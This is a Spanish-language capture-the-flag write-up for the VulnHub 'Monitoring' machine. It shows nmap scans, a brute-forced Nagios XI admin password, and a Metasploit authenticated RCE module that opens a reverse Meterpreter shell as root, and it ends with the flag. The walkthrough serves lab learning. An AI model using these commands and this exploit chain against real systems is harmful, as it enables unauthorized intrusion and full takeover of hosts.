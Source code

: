 ```yaml
---
icon: flag
---
```


# Monitoring VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-19 06:11 EDT
Nmap scan report for 192.168.5.193
Host is up (0.00022s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b8:8c:40:f6:5f:2a:8b:f7:92:a8:81:4b:bb:59:6d:02 (RSA)
|   256 e7:bb:11:c1:2e:cd:39:91:68:4e:aa:01:f6:de:e6:19 (ECDSA)
|_  256 0f:8e:28:a7:b7:1d:60:bf:a6:2b:dd:a3:6d:d1:4e:a4 (ED25519)
25/tcp   open  smtp       Postfix smtpd
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-09-08T17:59:00
|_Not valid after:  2030-09-06T17:59:00
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-09-08T18:28:08
|_Not valid after:  2030-09-06T18:28:08
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
5667/tcp open  tcpwrapped
MAC Address: 00:0C:29:22:4F:D1 (VMware)
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.89 seconds
```

Si nos vamos al puerto 80 normal encontramos un boton que nos lleva a un login de `nagios` el cual parece vulnerable, si buscamos en google las credenciales por defecto de un `nagios` vemos lo siguiente...

```
root/nagiosxi

o tambien

nagiosadmin/nagiosadmin
```

Si probamos no nos va a ir ninguna, pero si hacemos fuerza bruta con el usuario `nagiosadmin` para adivinar la `password` vemos que es `admin`, por lo que nos vamos a `metasploit`...

```shell
msfconsole -q

> use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
> set RHOSTS <IP>
> set PASSWORD admin
> set LHOST <YOUR_IP>
> run
```

Info:

```
[*] Started reverse TCP handler on 192.168.5.175:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.6.0.
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3045380 bytes) to 192.168.5.193
[*] Meterpreter session 1 opened (192.168.5.175:4444 -> 192.168.5.193:59266) at 2024-06-19 07:00:33 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter >
```

Con esto ya habriamos vulnerado la maquina y seriamos el usuario `root`, por lo que leeremos la flag...

> proof.txt (flag\_final)

```
SunCSR.Team.3.af6d45da1f1181347b9e2139f23c6a5b
```
